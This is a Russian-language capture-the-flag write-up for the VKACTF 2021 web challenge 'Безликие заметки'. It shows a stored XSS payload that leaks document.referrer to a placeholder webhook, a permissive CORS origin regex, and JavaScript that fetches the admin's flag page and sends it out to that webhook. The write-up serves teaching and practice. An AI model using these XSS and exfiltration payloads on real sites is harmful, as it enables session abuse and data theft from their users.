 ## Безликие заметки

| Событие | Название | Категория | Сложность |
| :------ | ---- | ---- | ---- |
| VKACTF 2021 | Безликие заметки | Web | hard |

### Описание

> Автор: [ 𝕂𝕣𝕒𝕦𝕤𝕖 ]
>
> Один из наших агентов, находящийся в компании СССР 2.0 и приближенный к руководству на Земле, недавно доложил, что у них есть [приложение](https://main.beautiful-notes.ml) для анонимного создания заметок, которыми они делятся с правительством Земли. Агент смог вытащить исходные коды приложения, но вот проанализировать их и сделать выводы у него не хватает знаний! Также он узнал, что если получить доступ администратора, то компания Космос Х сможет тайно подслушивать все обращения пользователей. Нужно получить его как можно скорее! Время уходит, они могут в любой момент узнать об утечке. Поторопитесь, мы не забудем наших героев!

### Решение
![](images/main.png)

Приложение позволяет создать личный аккаунт, добавить заметки и поделиться ими с админом.

Из исходного кода можно понять, что если при создании заметки добавить поле `style`, то данная заметка будет отображаться на странице небезопасным способом (`XSS`):

```html
<p
    v-if="post.style"
    v-html="postWithStyles(post)">
</p>
<p v-else>
    {{post.content}}
</p>
```

Домен администратора скрыт. Используя уязвимость XSS можно узнать поле `Referrer`. Для этого необходимо создать заметку следующим запросом и поделиться ей с админом:

```json
{
    "title":"krause",
    "content":"<input autofocus onfocus=location.replace(`http://<webhook>/${btoa(document.referrer)}`)></input>",
    "style":"background-color:black;"
}
```

Зная домен, мы можем заставить администратора получить содержимое страницы `/iwantflag` и отправить его нам, но сделать это с поддомена `main` нам запрещает мезанизм защиты `CORS` (Mixed Content).

![](images/mixed-content.png)

Можно заметить, что регуляное выражение, которое описывает заголовок `Access-Control-Allow-Origin` настроено неверно:
```js
const any_subdomain = new RegExp(`http:\/\/.*${process.env.MAIN_DOMAIN}$`)
```
Зарегистрировав свой домен, который оканчивается на `beautifyl-notes.ml`, мы можем разместить на нём JS код, который заставит админа получить содержимое страницы с флагом:
```js
fetch('http://adminsubdomain.beautiful-notes.ml/iwantflag')
.then(response => response.text())
.then(data => fetch(`http://<webhook>/&flag=${unescape(encodeURIComponent(data))}`)));
```

Подождав не больше минуты получаем флажок

**Флаг:**

> vka{c0r5_m15c0nf16_4nd_x55}